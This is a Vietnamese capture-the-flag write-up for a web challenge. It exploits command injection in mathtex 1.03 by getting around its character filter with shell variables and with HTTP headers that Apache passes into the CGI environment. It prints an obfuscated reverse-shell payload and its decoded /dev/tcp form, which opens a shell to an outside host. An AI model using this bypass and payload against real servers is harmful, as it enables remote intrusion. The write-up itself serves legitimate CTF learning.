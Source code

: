 # A few words...
Đây là WU cho vòng sơ khảo, nếu chung khảo mình có được đề thì cũng sẽ thử giải. Mảng web vòng sơ khảo có 3 bài, mình có xem qua 2 bài đầu thì khá dễ và hơi xàm, còn bài thứ 3 thì trong thời gian diễn ra, không team nào giải được. 

Bài này lấy ý tưởng từ 1 CVE của mathtex, nhưng tác giả đã biến tấu đi để làm cho nó khó hơn khá là nhiều. Trong thời gian diễn ra giải, thì có nhiều ý kiến cho rằng bài này là sai, là không thể giải được, nhiều web player vjp bro trên khắp ASEAN cũng nhận định như vậy, chắc là do nhiều vấn đề kĩ thuật xảy ra trong kì thi nên các bạn bị mất niềm tin vào đề thi và ban tổ chức (?). 

Mình thì thấy tác giả confirm là đề không sai, nên lựa chọn tin tưởng và ngồi ngâm cứu sau khi nhận được đề. Sau cùng với big hint từ anh tungpt (cựu sinh viên K11 của đại học FPT, big credit to you, tungpt 🥳) và mấy đêm thức không khuya cho lắm (bố mẹ đừng đọc được dòng này...) thì cuối cùng cũng đã chứng minh BTC xứng đáng gia nhập hội "the Liêm" và chỉ có mấy thằng `"tứ đại bổ túc"` FPT mới đi làm cái bài đéo ai thèm làm được 🤣🤣🤣. 

# Table of contents
- [A few words...](#a-few-words)
- [Table of contents](#table-of-contents)
- [DigitalGadget](#digitalgadget)
  - [Description](#description)
  - [Reconnaissance](#reconnaissance)
  - [Exploit](#exploit)

# DigitalGadget
## Description
- Tên bài: DigitalGadget
- Source code: [source code](./DigitalGadget)
- Ảnh: ![image](./img/des.png)

## Reconnaissance

- Với source code cho sẵn (nghe nói được cho khi cuộc thi còn 1 nửa thời gian), chúng ta dễ dàng dựng được môi trường local để test. 
- Đoc Dockerfile, nhận thấy dị điểm là machine có cài mathtex, một module CGI để render image từ LaTeX.
![image](./img/1.png)
- Nhảy vào docker bằng lệnh docker exec, chúng ta có thể kiểm tra được version của mathtex được cài là: `1.03`
![image](./img/2.png)
- Mathtex phiên bản 1.03 có 1 tá lỗ hổng, được mention trong bài viết [này](https://blog.yulun.ac.cn/posts/2023/fuzzing-mathtex/). Mình chỉ biết mỗi chơi web, và bài này ở category web, nên mình sẽ tạm bỏ qua đống lỗ hổng phía dưới về buffer/stack overflow mà tập trung vào Bug 1: Command Injection. Chi tiết thì mời đọc bài viết, và nên đọc bài để biết về phần mà mathtex đã filter để tránh command injection.
- Theo bài viết, thì có vẻ là ốp mỗi payload như thế này là ăn luôn rồi !?
![image](./img/3.png)
- Nhưng làm gì có kèo thơm tới thế. Bất cứ request tạo image gửi tới `/cgi-bin/mathtex.cgi` đều dính ngay lỗi thiếu quyền và không thể tạo được image. (Với 1 server được set up bình thường, khi ốp payload, chúng ta sẽ nhận được 1 image chứa command output, nhưng ở đây không thấy được gì cả)
![image](./img/4.png)
- Đây là điều khiến mọi người tranh cãi, vì cho rằng docker không được set up cho chuẩn, rằng mình tìm được WU rồi, phải ốp payload là ăn ngay, rằng là bài này không giải được, rằng là người ra đề láo, không chịu test, bla bla bla... Nhưng từ việc setup như thế này, tác giả đã đưa cho mình 1 challenge rất hay và thú vị. 

## Exploit
- Ok, mình thì không phải dân chơi web chuyên cho lắm, nhưng cũng biết là nếu không nhận được command output,thì bài này là blind command injection và phải nghĩ ngay tới reverse shell chứ nhỉ. Nhưng chúng ta gặp ngay tới tảng đá to đùng tiếp theo: `Filter chống command injection của Mathtex`.
![image](./img/5.png)
- Filter được viết khá kĩ, như trên hình thì chỉ có thể viết những command đơn giản kiểu `ls`, `cd`,... còn với reverse shell thì theo như mình tìm hiểu, cần phải chứa thêm các kí tự như `()`, `&`, `<>`. Payload reverse shell đơn giản nhất mà mình biết cũng cần kí tự `>` và `/` để hoạt động chứ chỉ với `;` và `$IFS` thì quá khó. Link tham khảo: [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux#bash-or-sh). Đồng thời machine cũng không cài bất cứ package nào để connect ra thế giới bên ngoài kiểu `nc`, `socat`,... nên việc tạo reverse shell càng khó khăn hơn.
- Tới hết giải thì mình thấy có một bạn trong channel telegram của giải đưa ra 1 payload để ghi file vào thư mục `/var/tmp`. Đây là chi tiết đáng chú ý vì với `/tmp` đã bị đánh quyền `000` thì chỉ còn `/var/tmp` là lựa chọn cuối cùng để ghi 1 cái gì đó lên hệ thống (user chạy web là `www-data` khá hạn chế về mặt write).
- Anh tungpt có tìm được rằng trong linux, có 1 số các biến môi trường đặc biệt, bên cạnh `$IFS`, chúng ta có `$PS2` = `> ` và có thể gán giá trị cho một số biến `$1`, `$2`,... để sử dụng và bypass filter.
- Từ idea trên, mình đã tạo ra 1 payload sau và chúng ta sẽ có 2 biến `$1` = `/` và `$2` = `>`.
![image](./img/6.png)
- Với các biến trên, mình đã tạo payload và chạy trên terminal
```bash
bash$IFS-c$IFS$3$2$1dev$1tcp$10.0.0.0$190909
```
tương ứng với bash command
```bash
bash -c bash>/dev/tcp/0.0.0.0/9090
```
- Nhưng với payload trên, connect tới reverse shell sẽ bị ngắt ngay khi chúng ta gửi payload. Mình thử thay `bash` thứ 2 bằng các lệnh đơn giản như `ls` thì vẫn nhận được output. Nhưng kết nối sẽ không được duy trì mà chỉ execute 1 lần duy nhất. Ngoại reverse shell này, các payload reverse shell khác đều cần kí tự `&`, và mình đã thử tìm tuy nhiên không có cách nào để tạo ra kí tự `&` từ các biến môi trường với số filter gần như là không góc chết của module mathtex.
- Mình đã thử khá nhiều cách để bypass và gần như bỏ cuộc vì không thể tạo 1 connect ổn định tới reverse shell (trong đó có việc bỏ qua reverse shell và thử chỉ redirect mỗi output của command cat file flag. Cách này hoạt động khi gõ lệnh trên terminal, nhưng khi gửi request thì lại không họat động (?)). Lúc này anh tungpt xuất hiện với phát kiến vĩ đại 
![image](./img/7.png)
- Không biết anh đọc ở đâu nhưng đây là link tài liệu mình tìm được [về việc Apache sẽ chuyển HTTP header thành biến môi trường cho CGI script](https://httpd.apache.org/docs/trunk/env.html#setting)
- Tới đây thì bài toán là phải ghi payload reverse shell vào file và chạy file đó. Mình đã dùng `eval` để execute câu lệnh `echo`. Dưới đây là payload cuối cùng

![image](./img/8.png)

- Với payload trên, mình đã gửi request và nhận được reverse shell.
- Flag:
![image](./img/9.png) 